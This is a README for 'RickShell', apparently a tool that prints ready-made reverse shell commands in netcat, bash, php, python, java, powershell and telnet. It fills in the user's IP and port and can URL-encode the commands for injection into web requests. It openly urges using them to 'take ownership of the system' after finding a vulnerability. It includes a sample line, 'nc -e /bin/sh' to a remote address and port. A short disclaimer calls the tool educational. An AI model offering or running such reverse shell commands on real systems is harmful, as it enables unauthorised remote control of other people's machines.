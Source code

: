 
# 🧬 RickShell  

⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢀⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠠⣼⣿⣿⣿⣶⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⡀⠚⣿⣿⣿⣿⠿⣉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠈⠉⡿⣷⡉⢻⣿⣿⣿⣿⣧⣠⣿⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⡇⠸⣷⣾⠁⠹⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠹⠏⠀⠀⠈⢿⣿⣿⣿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠈⣿⣿⣿⣿⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠠⠤⠤⠤⠤⠤⠤⠴⠿⠿⠿⠿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢀⡖⠓⢰⣛⠐⢺⠓⠀⢰⣞⠂⡴⠛⠂⣇⣰⣸⠀⡇⡶⣶⢰⣒⠒⢶⠒⢶⣠⠆
⠘⢧⡼⠸⠤⠄⠸⠀⠀⠰⣬⠇⠳⡤⠆⠇⠸⠋⠿⠳⠃⠿⠸⠁⠀⠼⠀⠨⠏⠀

use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell - p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
